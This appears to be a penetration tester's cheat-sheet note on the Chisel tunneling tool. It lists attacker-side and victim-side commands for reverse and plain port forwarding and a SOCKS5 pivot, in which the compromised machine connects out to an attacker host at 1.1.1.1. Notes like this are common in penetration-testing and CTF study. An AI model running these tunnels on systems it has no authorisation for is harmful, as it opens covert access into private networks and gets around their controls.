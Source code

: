 ## Using Chisel

 ### Important links:  
* [https://github.com/jpillora/chisel/](https://github.com/jpillora/chisel/)  
* [https://0xdf.gitlab.io/2019/01/28/tunneling-with-chisel-and-ssf.html](https://0xdf.gitlab.io/2019/01/28/tunneling-with-chisel-and-ssf.html)  
  
### Basic Client Listener
#### local port forwarding:  
Attacker machine:  
* ./chisel server -p 8000 --reverse  
  
 Victim machine:  
* ./chisel client 1.1.1.1:8000 R:80:3.3.3.4:80

![[Chisel_local_port_forwrding.png]]

### Basic Server Listener
#### Remote Port Forwarding:  
Attacker machine:  
* ./chisel server -p 8000  
  
Victim machine:  
* ./chisel client 1.1.1.1:8000 9001:www.exploit-db.com:443

![[Chisel_remote_port_forwarding.png]]

### Socks Proxy:  
* ./chisel server -p 8000 --reverse  
* ./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001  
Now anything I send to localhost:8001 on kali will forward to localhost:9001 on target.  
  
  
* ./chisel server -p 9001 --socks5  
* ./chisel client localhost:8001 socks  

This connection is forwarded through the first tunnel and connects to the chisel server running on the box. Now my local host is listening on port 1080 (default, can change that with arguments) and will send traffic to target, and then proxy it outbound.

![[Chisel_Sock_Proxy.png]]